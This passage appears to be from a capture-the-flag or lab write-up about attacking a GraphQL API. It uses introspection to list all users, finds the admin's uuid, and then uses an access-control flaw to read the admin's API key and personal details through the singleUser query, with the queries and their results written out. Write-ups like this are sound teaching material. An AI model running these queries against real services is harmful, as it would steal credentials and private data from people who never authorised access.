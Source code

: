 As you can see, changing the user parameter allows us to access the API key of other users. The issue is that we don't know who the admin user was.

Using graphql voyager to analyse the API's introspection structure, it was revealed that the allUsers query allows accessing all user information such as `username`, `uuid`, and `isAdmin`.

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption><p>visual representation of introspection schema with graphql voyager</p></figcaption></figure>

A query was created using the above representation to fetch all of the users.

<pre class="language-graphql" data-title="query to fetch allUsers" data-line-numbers><code class="lang-graphql"><strong>{
</strong>  allUsers {
    edges {
      node {
        uuid
        username
        isAdmin
      }
    }
  }
}

</code></pre>

The query above revealed that the admin user was `jimcarry` with `uuid:10`.

```json
{
  "node": {
     "uuid": "10",
     "username": "jimcarry",
     "isAdmin": true
   }
 }
```

We can also use the `allPosts` query to get information about the users.

```graphql
{ REDACTED TRY YOUR SELF }
```

now we can retrieve the admin user api key with the admin uuid by using the

```graphql
{
  singleUser(user: 10) {
    apiKey
    name
    surname
    dateOfBirth
  }
}
```

We can now obtain the admin user API key using the admin uuid.
